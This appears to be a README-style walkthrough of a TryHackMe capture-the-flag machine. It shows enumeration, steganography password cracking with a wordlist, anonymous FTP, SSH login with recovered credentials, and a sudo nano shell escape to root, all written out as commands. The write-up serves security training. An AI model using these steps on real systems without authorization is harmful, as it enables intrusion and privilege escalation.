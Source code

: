 # brooklynninenine | CTF Machine 

## Tools && Sources

1. [tryenum](https://github.com/alauthor/enum-tryhackme-machine)
2. stegcrack
3. steghide 
4. ftp 
5. ssh 
6. [gtfobins](https://gtfobins.github.io/)

## steps to get two flags 
```bash
./tryenum.sh 10.10.x.x
[+] http port 80 is open  
[+] open ports 21,22,80
[+] found brooklyn99.jpg brooklyn/SCAN/WEBSERVER/RESOURCES
[+] found tryenum_comments.txt brooklyn/SCAN/WEBSERVER/KEYWORDS says <!-- Have you ever heard of steganography? -->
[+] so start stegcrack brooklyn99.jpg found the password : admin 
[+] steghide steghide extract -sf brooklyn99.jpg
[+] found note.txt file 
[+] cat note.txt says that "holts" has password of "fluffydog12@ninenine"
[+] after scan complete it says that ftp anonymous is allowd so go and check it will return a file "what important about the file that holt is the username of ssh connection"
[+] user.txt in the home path | flag-1
[+] sudo -l | you can run /bin/nano as root 
[+] open the gtfobins and get a root shell 
[+] cat /root/root.txt | flag-2
```
## STEP-1
```bash
now we know that port 21,22,80 opens 
```
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/brooklyn/imgs/2022-07-09%2000_43_31-Kali-Linux-2020.4-vbox-amd64%20(6_18_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">

## STEP-2
```bash
after the scan complete go to brooklyn/SCAN/WEBSERVER/RESOURCES and you will find a file called brooklyn99.jpg 
this file downloaded from the main page http://ip-address-of-the-machine/brooklyn99.jpg
you can download it manually using wget 
wget "http://ip-address-of-the-machine/brooklyn99.jpg"
found a command in the view source of the main page at http://ip-address-of-the-machine:80/ says check stegonography you can easly go to that path  brooklyn/SCAN/WEBSERVER/KEYWORDS and display the file tryenum_comments.txt which contain comments of the webserver. 
stegcrack brooklyn99.jpg /usr/share/wordlists/rockyou.txt | password is admin 
steghide extract -sf brooklyn99.jpg | note.txt
cat note.txt
```
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/brooklyn/imgs/2022-07-09%2000_44_22-Kali-Linux-2020.4-vbox-amd64%20(6_18_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/brooklyn/imgs/2022-07-08%2015_01_37-Kali-Linux-2020.4-vbox-amd64%20(6_18_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/brooklyn/imgs/2022-07-08%2015_02_01-Kali-Linux-2020.4-vbox-amd64%20(6_18_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">

## STEP-3
```bash
check full_scan_result in brooklyn/SCAN/NMAP path 
Ooooh ftp anonymous login allowed now 
ftp ip-of-the-machine
username : anonymous
password : anonymous | or just click enter 
you will find a file download that file using get command 
now we know the username which is "holt" and the password which is "fluffydog12@ninenine" let's connect to ssh 
ssh holt@ip-of-the-machine
cat user.txt | flag-1
sudo -l | you can run nano as root 
open the 6- resource file up
sudo /bin/nano
Press CTRL+R then CTRL+X 
add this command "reset; sh 1>&0 2>&0" | nice you're now root
cat /root/root.txt | flag-2
```
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/brooklyn/imgs/2022-07-09%2000_45_09-Kali-Linux-2020.4-vbox-amd64%20(6_18_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/brooklyn/imgs/2022-07-09%2001_01_00-VirtualBoxVM.png">

